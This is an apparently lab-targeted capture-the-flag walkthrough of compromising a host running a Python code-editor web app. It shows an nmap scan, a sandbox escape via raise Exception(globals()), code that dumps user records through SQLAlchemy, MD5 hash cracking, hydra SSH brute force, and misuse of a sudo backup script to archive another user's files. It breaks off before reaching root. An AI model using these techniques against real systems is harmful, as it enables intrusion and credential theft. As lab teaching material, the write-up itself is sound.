### Port Scanning - Service & Version Enumeration

```jsx
# Nmap 7.94SVN scan initiated Mon Apr  7 13:17:00 2025 as: /usr/lib/nmap/nmap -sVC -p- --open -oN initial/nmap.out -vv 10.10.11.62
Nmap scan report for 10.10.11.62
Host is up, received reset ttl 63 (0.37s latency).
Scanned at 2025-04-07 13:17:01 EDT for 190s
Not shown: 65517 closed tcp ports (reset), 16 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b5:b9:7c:c4:50:32:95:bc:c2:65:17:df:51:a2:7a:bd (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCrE0z9yLzAZQKDE2qvJju5kq0jbbwNh6GfBrBu20em8SE/I4jT4FGig2hz6FHEYryAFBNCwJ0bYHr3hH9IQ7ZZNcpfYgQhi8C+QLGg+j7U4kw4rh3Z9wbQdm9tsFrUtbU92CuyZKpFsisrtc9e7271kyJElcycTWntcOk38otajZhHnLPZfqH90PM+ISA93hRpyGyrxj8phjTGlKC1O0zwvFDn8dqeaUreN7poWNIYxhJ0ppfFiCQf3rqxPS1fJ0YvKcUeNr2fb49H6Fba7FchR8OYlinjJLs1dFrx0jNNW/m3XS3l2+QTULGxM5cDrKip2XQxKfeTj4qKBCaFZUzknm27vHDW3gzct5W0lErXbnDWQcQZKjKTPu4Z/uExpJkk1rDfr3JXoMHaT4zaOV9l3s3KfrRSjOrXMJIrImtQN1l08nzh/Xg7KqnS1N46PEJ4ivVxEGFGaWrtC1MgjMZ6FtUSs/8RNDn59Pxt0HsSr6rgYkZC2LNwrgtMyiiwyas=
|   256 94:b5:25:54:9b:68:af:be:40:e1:1d:a8:6b:85:0d:01 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDiXZTkrXQPMXdU8ZTTQI45kkF2N38hyDVed+2fgp6nB3sR/mu/7K4yDqKQSDuvxiGe08r1b1STa/LZUjnFCfgg=
|   256 12:8c:dc:97:ad:86:00:b4:88:e2:29:cf:69:b5:65:96 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP8Cwf2cBH9EDSARPML82QqjkV811d+Hsjrly11/PHfu
5000/tcp open  http    syn-ack ttl 63 Gunicorn 20.0.4
|_http-server-header: gunicorn/20.0.4
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD
|_http-title: Python Code Editor
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Apr  7 13:20:11 2025 -- 1 IP address (1 host up) scanned in 191.21 seconds
```

## Enumeration

### Port 5000/HTTP



Oh great we can execute the python code, what about importing os!



Oh it says use of restricted keywords not allowed

after some searching i found that we can directly interact with app’s memory using `raise Exception(globals())` 

let’s run this to get global variable directory

```jsx

Register Login About
{'__name__': 'app', '__doc__': None, '__package__': '', '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7fb5a4fe7610>, '__spec__': ModuleSpec(name='app', loader=<_frozen_importlib_external.SourceFileLoader object at 0x7fb5a4fe7610>, origin='/home/app-production/app/app.py'), '__file__': '/home/app-production/app/app.py', '__cached__': '/home/app-production/app/__pycache__/app.cpython-38.pyc', '__builtins__': {'__name__': 'builtins', '__doc__': "Built-in functions, exceptions, and other objects.\n\nNoteworthy: None is the `nil' object; Ellipsis represents `...' in slices.", '__package__': '', '__loader__': <class '_frozen_importlib.BuiltinImporter'>, '__spec__': ModuleSpec(name='builtins', loader=<class '_frozen_importlib.BuiltinImporter'>), '__build_class__': <built-in function __build_class__>, '__import__': <built-in function __import__>, 'abs': <built-in function abs>, 'all': <built-in function all>, 'any': <built-in function any>, 'ascii': <built-in function ascii>, 'bin': <built-in function bin>, 'breakpoint': <built-in function breakpoint>, 'callable': <built-in function callable>, 'chr': <built-in function chr>, 'compile': <built-in function compile>, 'delattr': <built-in function delattr>, 'dir': <built-in function dir>, 'divmod': <built-in function divmod>, 'eval': <built-in function eval>, 'exec': <built-in function exec>, 'format': <built-in function format>, 'getattr': <built-in function getattr>, 'globals': <built-in function globals>, 'hasattr': <built-in function hasattr>, 'hash': <built-in function hash>, 'hex': <built-in function hex>, 'id': <built-in function id>, 'input': <built-in function input>, 'isinstance': <built-in function isinstance>, 'issubclass': <built-in function issubclass>, 'iter': <built-in function iter>, 'len': <built-in function len>, 'locals': <built-in function locals>, 'max': <built-in function max>, 'min': <built-in function min>, 'next': <built-in function next>, 'oct': <built-in function oct>, 'ord': <built-in function ord>, 'pow': <built-in function pow>, 'print': <built-in function print>, 'repr': <built-in function repr>, 'round': <built-in function round>, 'setattr': <built-in function setattr>, 'sorted': <built-in function sorted>, 'sum': <built-in function sum>, 'vars': <built-in function vars>, 'None': None, 'Ellipsis': Ellipsis, 'NotImplemented': NotImplemented, 'False': False, 'True': True, 'bool': <class 'bool'>, 'memoryview': <class 'memoryview'>, 'bytearray': <class 'bytearray'>, 'bytes': <class 'bytes'>, 'classmethod': <class 'classmethod'>, 'complex': <class 'complex'>, 'dict': <class 'dict'>, 'enumerate': <class 'enumerate'>, 'filter': <class 'filter'>, 'float': <class 'float'>, 'frozenset': <class 'frozenset'>, 'property': <class 'property'>, 'int': <class 'int'>, 'list': <class 'list'>, 'map': <class 'map'>, 'object': <class 'object'>, 'range': <class 'range'>, 'reversed': <class 'reversed'>, 'set': <class 'set'>, 'slice': <class 'slice'>, 'staticmethod': <class 'staticmethod'>, 'str': <class 'str'>, 'super': <class 'super'>, 'tuple': <class 'tuple'>, 'type': <class 'type'>, 'zip': <class 'zip'>, '__debug__': True, 'BaseException': <class 'BaseException'>, 'Exception': <class 'Exception'>, 'TypeError': <class 'TypeError'>, 'StopAsyncIteration': <class 'StopAsyncIteration'>, 'StopIteration': <class 'StopIteration'>, 'GeneratorExit': <class 'GeneratorExit'>, 'SystemExit': <class 'SystemExit'>, 'KeyboardInterrupt': <class 'KeyboardInterrupt'>, 'ImportError': <class 'ImportError'>, 'ModuleNotFoundError': <class 'ModuleNotFoundError'>, 'OSError': <class 'OSError'>, 'EnvironmentError': <class 'OSError'>, 'IOError': <class 'OSError'>, 'EOFError': <class 'EOFError'>, 'RuntimeError': <class 'RuntimeError'>, 'RecursionError': <class 'RecursionError'>, 'NotImplementedError': <class 'NotImplementedError'>, 'NameError': <class 'NameError'>, 'UnboundLocalError': <class 'UnboundLocalError'>, 'AttributeError': <class 'AttributeError'>, 'SyntaxError': <class 'SyntaxError'>, 'IndentationError': <class 'IndentationError'>, 'TabError': <class 'TabError'>, 'LookupError': <class 'LookupError'>, 'IndexError': <class 'IndexError'>, 'KeyError': <class 'KeyError'>, 'ValueError': <class 'ValueError'>, 'UnicodeError': <class 'UnicodeError'>, 'UnicodeEncodeError': <class 'UnicodeEncodeError'>, 'UnicodeDecodeError': <class 'UnicodeDecodeError'>, 'UnicodeTranslateError': <class 'UnicodeTranslateError'>, 'AssertionError': <class 'AssertionError'>, 'ArithmeticError': <class 'ArithmeticError'>, 'FloatingPointError': <class 'FloatingPointError'>, 'OverflowError': <class 'OverflowError'>, 'ZeroDivisionError': <class 'ZeroDivisionError'>, 'SystemError': <class 'SystemError'>, 'ReferenceError': <class 'ReferenceError'>, 'MemoryError': <class 'MemoryError'>, 'BufferError': <class 'BufferError'>, 'Warning': <class 'Warning'>, 'UserWarning': <class 'UserWarning'>, 'DeprecationWarning': <class 'DeprecationWarning'>, 'PendingDeprecationWarning': <class 'PendingDeprecationWarning'>, 'SyntaxWarning': <class 'SyntaxWarning'>, 'RuntimeWarning': <class 'RuntimeWarning'>, 'FutureWarning': <class 'FutureWarning'>, 'ImportWarning': <class 'ImportWarning'>, 'UnicodeWarning': <class 'UnicodeWarning'>, 'BytesWarning': <class 'BytesWarning'>, 'ResourceWarning': <class 'ResourceWarning'>, 'ConnectionError': <class 'ConnectionError'>, 'BlockingIOError': <class 'BlockingIOError'>, 'BrokenPipeError': <class 'BrokenPipeError'>, 'ChildProcessError': <class 'ChildProcessError'>, 'ConnectionAbortedError': <class 'ConnectionAbortedError'>, 'ConnectionRefusedError': <class 'ConnectionRefusedError'>, 'ConnectionResetError': <class 'ConnectionResetError'>, 'FileExistsError': <class 'FileExistsError'>, 'FileNotFoundError': <class 'FileNotFoundError'>, 'IsADirectoryError': <class 'IsADirectoryError'>, 'NotADirectoryError': <class 'NotADirectoryError'>, 'InterruptedError': <class 'InterruptedError'>, 'PermissionError': <class 'PermissionError'>, 'ProcessLookupError': <class 'ProcessLookupError'>, 'TimeoutError': <class 'TimeoutError'>, 'open': <built-in function open>, 'quit': Use quit() or Ctrl-D (i.e. EOF) to exit, 'exit': Use exit() or Ctrl-D (i.e. EOF) to exit, 'copyright': Copyright (c) 2001-2021 Python Software Foundation. All Rights Reserved. Copyright (c) 2000 BeOpen.com. All Rights Reserved. Copyright (c) 1995-2001 Corporation for National Research Initiatives. All Rights Reserved. Copyright (c) 1991-1995 Stichting Mathematisch Centrum, Amsterdam. All Rights Reserved., 'credits': Thanks to CWI, CNRI, BeOpen.com, Zope Corporation and a cast of thousands for supporting Python development. See www.python.org for more information., 'license': Type license() to see the full license text, 'help': Type help() for interactive help, or help(object) for help about object.}, 'Flask': <class 'flask.app.Flask'>, 'render_template': <function render_template at 0x7fb5a49a4ee0>, 'render_template_string': <function render_template_string at 0x7fb5a49a4f70>, 'request': <Request 'http://10.10.11.62:5000/run_code' [POST]>, 'jsonify': <function jsonify at 0x7fb5a4c4fc10>, 'redirect': <function redirect at 0x7fb5a4ab93a0>, 'url_for': <function url_for at 0x7fb5a4ab9310>, 'session': <SecureCookieSession {}>, 'flash': <function flash at 0x7fb5a4ab9550>, 'SQLAlchemy': <class 'flask_sqlalchemy.extension.SQLAlchemy'>, 'sys': <module 'sys' (built-in)>, 'io': <module 'io' from '/usr/lib/python3.8/io.py'>, 'os': <module 'os' from '/usr/lib/python3.8/os.py'>, 'hashlib': <module 'hashlib' from '/usr/lib/python3.8/hashlib.py'>, 'app': <Flask 'app'>, 'db': <SQLAlchemy sqlite:////home/app-production/app/instance/database.db>, 'User': <class 'app.User'>, 'Code': <class 'app.Code'>, 'index': <function index at 0x7fb5a39f38b0>, 'register': <function register at 0x7fb5a39f3b80>, 'login': <function login at 0x7fb5a39f3c10>, 'logout': <function logout at 0x7fb5a39f3ca0>, 'run_code': <function run_code at 0x7fb5a39f3e50>, 'load_code': <function load_code at 0x7fb5a386f040>, 'save_code': <function save_code at 0x7fb5a386f1f0>, 'codes': <function codes at 0x7fb5a386f3a0>, 'about': <function about at 0x7fb5a386f55sqlite:////home/app-production/app/instance/database.db>, 'User0>}
```



something interesting also we found global variable SQLAlchemy, searching further we found that we can intereact with this database using SQLAlchemy we need model for query SQLAlchemy  

we can use below python code to extract valid model for query SQLAlchemy

```jsx
try:
    raise Exception(globals())  # Raise exception to access globals()
except Exception as e:
    global_vars = e.args[0]  # Get globals dictionary

    # Find all classes that are subclasses of db.Model
    models = {name: obj for name, obj in global_vars.items()
              if isinstance(obj, type) and hasattr(obj, '__table__')}

    print("Found SQLAlchemy models:")
    for model_name, model_class in models.items():
        print(model_name)
```



now as we know the valid model `user` let’s extract column names from it

use following code to get column names from it

```python
columns = User.__table__.columns.keys()
print(columns)
```



now we can use User.query.all() built in method to dump data from the memory 



we’ve 2 user’s credentials 



it’s looks like basic md5 hashes let’s use [crackstation](https://crackstation.net/) to crack the hashes



i’ll use hydra to bruteforce username and password to ssh

```python
hydra -L user.txt -P password.txt ssh://10.10.11.62 -v
```





let’s check `sudo -l` 



ok so martin can execute /usr/bin/backy.sh using sudo

reading the file we found that 



it requires to pass task.json file let’s read the file using `cat ~/backup/task.json` 



so it tells backup source and destination also let’s turn on logging by `verbose_log: “true”` 

i’ll modify the backup path to /home/app-production directory



run the script using,

```python
sudo /usr/bin/backy.sh task.json
```



if we check file type of all files i found that it is compressed using bzip



use bzip to decompress 

```python
bzip2 -d code_home_app-production_2025_April.tar.bz2
```



it will now create a tar file let’s extract it

```python
tar xvf code_home_app-production_2025_April.tar
```



what if we can extract this same way!, but unfortunately we couldn’t as if we read the code again we found that it only backup source to either, /home or /var 

